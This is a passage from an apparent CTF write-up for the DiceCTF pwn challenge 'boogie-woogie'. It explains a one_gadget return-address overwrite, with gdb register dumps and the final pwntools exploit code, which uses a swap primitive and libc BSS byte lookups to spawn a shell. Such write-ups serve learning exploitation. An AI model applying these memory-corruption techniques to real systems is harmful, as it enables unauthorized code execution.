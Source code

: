 Searching for one_gadgets, reveals this one:

```
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

We can break at main's ret, and see that both RSI and RDI are 0:

```
 RAX  0x0
 RBX  0x0
 RCX  0x555555563020 (data) ◂— 0x63206e6574736900
 RDX  0x0
 RDI  0x0
 RSI  0x0
 R8   0x0
 R9   0x0
 R10  0x7ffff7dbeac0 ◂— 0x100000000
 R11  0x7ffff7dbf3c0 ◂— 0x2000200020002
 R12  0x7fffffffdef8 —▸ 0x7fffffffe26e ◂— '/home/itay/Desktop/dicectf/pwn/boogie/boogie-woogie'
 R13  0x555555555258 (main) ◂— endbr64 
 R14  0x555555562da8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555160 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7ffff7ffd040 —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
*RBP  0x1
*RSP  0x7fffffffdde8 —▸ 0x7ffff7c29d90 ◂— mov edi, eax
*RIP  0x55555555531f (main+199) ◂— ret 

   0x55555555531e <main+198>    leave  
 ► 0x55555555531f <main+199>    ret    <0x7ffff7c29d90>

```

RBP-0x78 is not writable tho, but it is stored right before the return pointer, and we can easily swap a stack address into it.
Since the original return pointer of main is already a libc address (points to libc_start_main), we only need to write 3 bytes for it to jump to our one_gadget.

Since our primitive is a swap primitive, in order to write something to the return pointer , we need to have it anywhere in a writable page.
To overcome this issue, I have dumped all of libc's bss, with the `dump binary memory libc_dump 0x7ffff7e1a000 0x7ffff7e29000` command in gdb. This memory contains some pointers so it will be some of it will change each run, but its good enough to us.

Here is the final part of the exploit:

```py
    slap_length(0, ret_address - exe.sym.data - 8, 8) #copy stack address to RBP

    char_set_libc = [i for i in open("libc_dump", 'rb').read()] 

    libc.sym.one_gadget = libc.address + 0xebc88


    payload = p64(libc.sym.one_gadget)
    libc.bss_address = libc.address + 0x21a000
    for i in range(3):
        idx = char_set_libc.index(payload[i]) + (libc.bss_address - exe.sym.data)
        clap(ret_address - exe.sym.data, idx)

    clap(0, 0) #Trigger ret
    p.sendline("cat flag.txt")
    p.interactive()
```